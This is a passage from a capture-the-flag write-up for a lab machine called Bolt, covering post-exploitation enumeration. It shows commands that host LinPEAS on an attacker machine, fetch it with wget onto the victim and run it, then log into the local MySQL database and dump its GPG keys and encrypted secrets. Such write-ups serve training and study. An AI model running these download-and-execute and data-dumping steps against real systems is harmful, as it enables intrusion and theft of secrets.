 Since I can't find much, I'm going to use **Carlos Polop's** excellent resource, **[LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS){:target="_blank"}**, to list the system more efficiently. I transfer it to the victim machine and give it execution permissions to start. I find several little things, access data for the local databases, possible SSH keys and also the process related to GPG (the same as I had found with `ps`).

> **Attacker machine**:

```bash
python3 -m http.server 80
```

> **Victime Machine**:

```bash
cd /dev/shm
wget http://10.10.14.13/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

<br/>
<img src="{{ site.img_path }}/bolt_writeup/Bolt_57.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/bolt_writeup/Bolt_58.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/bolt_writeup/Bolt_59.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/bolt_writeup/Bolt_60.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

Since I have access to the databases, I will list them and see if I can find credentials to pivot to another user with more privileges. I look in various tables but only find **GPG** keys and a GPG **encrypted secret**, but so far no clear text keys or hashes that I can try to crack.

```bash
which mysql
mysql -upassbolt -p -h 127.0.0.1 -P 3306
  show databases;
  use passboltdb;
  show tables;
  describe users;
  describe gpgkeys;
  select * from gpgkeys;
  describe secrets;
  select data from secrets;     # Secret Message!!
  quit
 ```
